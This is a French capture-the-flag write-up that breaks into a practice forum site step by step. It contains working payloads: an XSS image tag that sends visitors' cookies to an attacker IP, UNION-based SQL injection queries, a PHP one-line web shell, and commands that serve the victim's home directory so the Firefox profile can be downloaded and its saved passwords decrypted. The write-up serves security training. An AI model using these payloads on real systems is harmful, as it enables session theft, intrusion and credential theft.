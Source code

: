 # Challenge RSR

## Se connecter en tant que modérateur

La première étape va être de se connecter en tant que modérateur, en exploitant une faille XSS. 

On va tout d'abord créer un compte utilisateur sur la page d'incription. Une fois inscrit et connecté, nous avons accès au forum et nous pouvons ajouter de nouveaux messages. Il est alors possible d'exécuter du javascript dans les commentaires des topics.

```html
<script>alert(document.cookie)</script>
```

On peut alors récupérer le cookie de session d'une personne venant lire notre message.

```html
<!-- Remplacer l'adresse IP par la votre -->
<img src="azerty.jpg" onerror="this.src=`http://172.21.31.1/cookie?=`+document.cookie;">
```

On signal ensuite notre message pour qu'il se fasse controllé par un modérateur.

```bash
netcat -l -p 80 -v
```

On ouvre le port 80 de notre machine, et on attend une réponse...

## Trouver le mot de passe crypté de l'administrateur

Une fois connecté en tant que modérateur, un nouveau champ est disponible dans l'onglet `profil`. Ce champ permet de signaler des utilisateurs. Comme les modérateurs ne sont pas considérés comme des attaquants potentiels, ce champ n'a pas été sécurisé contre les injections SQL. Vous allez pouvoir l'utiliser pour trouver le mot de passe (crypté) de l'administrateur.

Tout d'abord il faut déterminer combien de champs sont nécessaires pour la requête. On peut utilisé le nom d'un utilisateur que nous avons créé, et incrémenter `ORDER BY` jusqu'à avoir une erreur.

```SQL
user 'ORDER BY 1;#
user 'ORDER BY 2;#
```

On constate qu'un seul champ est nécessaire. On peut maintenant chercher le nom de la base de données. Ici on utilise un nom d'utilisateur invalide pour exécuter `UNION`.

```SQL
z' UNION SELECT database();#
>>RSRWebsite
```

Puis le nom des tables...

```SQL
z' UNION SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = 'RSRWebsite' LIMIT 0,1;#
>>posts
z' UNION SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = 'RSRWebsite' LIMIT 1,2;#
>>topics
z' UNION SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = 'RSRWebsite' LIMIT 2,3;#
>>users
z' UNION SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = 'RSRWebsite' LIMIT 3,4;#
>>error!
```

Il y a 3 tables. La table `users` semble sortir du lot. On regarde alors le nom des colonnes.

```SQL
z' UNION SELECT COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = 'RSRWebsite' AND TABLE_NAME = 'users' LIMIT 0,1;#
>>id_user
z' UNION SELECT COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = 'RSRWebsite' AND TABLE_NAME = 'users' LIMIT 1,2;#
>>username
z' UNION SELECT COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = 'RSRWebsite' AND TABLE_NAME = 'users' LIMIT 2,3;#
>>password
z' UNION SELECT COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = 'RSRWebsite' AND TABLE_NAME = 'users' LIMIT 3,4;#
>>rank
z' UNION SELECT COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = 'RSRWebsite' AND TABLE_NAME = 'users' LIMIT 4,5;#
>>reported
z' UNION SELECT COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = 'RSRWebsite' AND TABLE_NAME = 'users' LIMIT 4,5;#
>>error!
```

Nous n'avons pas accès à la liste des utilisateurs, et donc à l'identifiant de l'administrateur. On voit cependant une colonne `rank`, qui définit le rang des utilisateurs. On regarde le rang de notre utilisateur.

```SQL
z' UNION SELECT rank FROM users WHERE username = 'user';#
```
La réponse retournée est alors un chiffre. On essaie alors de changé le chiffre pour trouver l'administrateur.

```SQL
z' UNION SELECT username FROM users WHERE rank = 3;#
>>admin
```

On se concenter alors sur le colonne `password`.

```SQL
z' UNION SELECT password FROM users WHERE username = 'admin';#
```

On obtient alors le mot de passe crypté de l'administrateur !

## Se connecter en tant qu'administrateur

Sur la page de connexion, en regardant le code source de la page, on remarque qu'une fonction `createCookie()` est appellée lorsqu'on clique sur le bouton pour se connecter. Le cookie est passé en POST à l'aide d'un champ masqué. On ne trouve pas cette fonction dans la page. Cependant, une balise script est présente sur la page, mais le code est obfusqué. On peut alors déchiffrer ce code voir de quoi il s'agit (`https://beautifier.io/`).

Une fois le code dechiffré, on voit alors la fonction `createCookie()`. Le cookie est le sha1 de la concaténation du nom d'utilisateur avec le sha1 du mot de passe. Il faut alors recréer le cookie de l'administrateur avec son pseudo et sont mot de passe chiffré trouvé précédemment. 

## File inclusion

Sur le profil de l'administrateur, un nouveau champ est disponible. Ce champ permet d'upload les fichiers visibles dans l'onglet `Documents`. L'extension des fichiers uploadés n'est pas vérifiée. Nous allons alors pouvoir écrire une backdoor php dans un fichierphp, puis la téléverser.

```PHP
//https://gist.github.com/sente/4dbb2b7bdda2647ba80b
//Simple PHP Backdoor By DK (One-Liner Version) 
//Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd 
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

On peut alors exécuter des commandes bash dans l'url :

```
http://localhost/RSR/upload/backdoor.php?cmd=ls
http://localhost/RSR/upload/backdoor.php?cmd=ls+../
```

En parcourant les dossiers de l'administrateur, on peut alors trouver un fichier `remember_password.txt` dans ses documents.

```bash
http://localhost/RSR/upload/backdoor.php?cmd=ls+../../../../../home/elfen/Documents
http://localhost/RSR/upload/backdoor.php?cmd=cat+../../../../../home/elfen/Documents:remember_password.txt
```

## Trouver le mot de passe facebook de l'admin

On voit dans ce précédent fichier qu'il y a le master password de firefox. On va donc récupérer les fichiers de firefox pour dump les mots de passe enregistrés. On commence par ouvrir un serveur python pour récupérer les fichiers.

```bash
http://localhost/RSR/upload/backdoor.php?cmd=cd+../../../../../home/elfen/;python+-m+SimpleHTTPServer+8080
```

On télécharge le dossier `.mozilla`

```bash
wget -r -p IP_VM:8080/.mozilla/
```

On dump les mots de passe avec firefix_

```bash
python3 firefox_decrypt.py path/to/.mozilla/firefox/random.default/
```